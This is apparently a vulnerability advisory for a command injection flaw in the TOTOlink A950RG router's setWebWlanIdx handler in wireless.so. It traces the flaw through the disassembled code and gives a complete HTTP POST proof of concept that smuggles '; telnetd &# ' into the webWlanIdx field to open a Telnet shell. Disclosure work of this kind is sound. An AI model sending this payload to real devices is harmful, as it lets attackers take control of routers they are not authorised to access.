


# TARGET

- Device: TOTOlink A950RG
- Firmware Version: V4.1.2cu.5204_B20210112

# BUG TYPE

Command Execution Vulnerability

# Abstract

This document reports a command execution vulnerability found in the TOTOlink A950RG router, specifically in the firmware version V4.1.2cu.5204_B20210112. The vulnerability is located in the setWebWlanIdx interface within the /lib/cste_modules/wireless.so file, which mishandles the webWlanIdx parameter. Due to insufficient input validation and filtering on this user-controllable parameter, an attacker can inject system commands through a crafted malicious request. This vulnerability allows unauthorized attackers to execute arbitrary system commands on the target device, thereby gaining control over the affected router.

# Details



Using IDA to examine the setWebWlanIdx function in wireless.so, the disassembled code reveals that the websGetVar function retrieves the webWlanIdx parameter from user input and stores it in the variable v5. The code then uses the sprintf function to construct a command string v7, which outputs the value of webWlanIdx to the /tmp/webWlanIdx file. Finally, the CsteSystem function executes this command and returns a configuration response via the websSetCfgResponse function.

The sprintf() function writes a formatted string into the v7 buffer, with the format string being "echo %s > /tmp/webWlanIdx". Here, %s is replaced with the value of v5, which is obtained from the user input through the websGetVar() function. The CsteSystem() function then executes the command string in v7, effectively calling the system to perform the command.

If an attacker can inject malicious commands into v5 (the user input parameter) via websGetVar(), these commands will be concatenated into the echo command string and executed. For example, if the injected command is a directive to start the Telnet service, when the system executes CsteSystem(v7), it will not only execute the expected command (writing the value to /tmp/webWlanIdx) but also execute the malicious injected command, potentially starting the Telnet service that was previously disabled, creating a security risk.

An attacker can exploit this command execution vulnerability by sending specially crafted API requests that inject malicious commands into the webWlanIdx parameter, potentially leading to complete control over the system.


# POC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:135.0) Gecko/20100101 Firefox/135.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 65
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/adm/notice.asp
Cookie: SESSION_ID=2:1743960903:2
Priority: u=0

{"topicurl":"setting/setWebWlanIdx","webWlanIdx":"; telnetd &# "}
```

### Attack Result




As shown in the above image, command injection was successful, and the target router supports Telnet service, allowing access to the device's shell via Telnet.

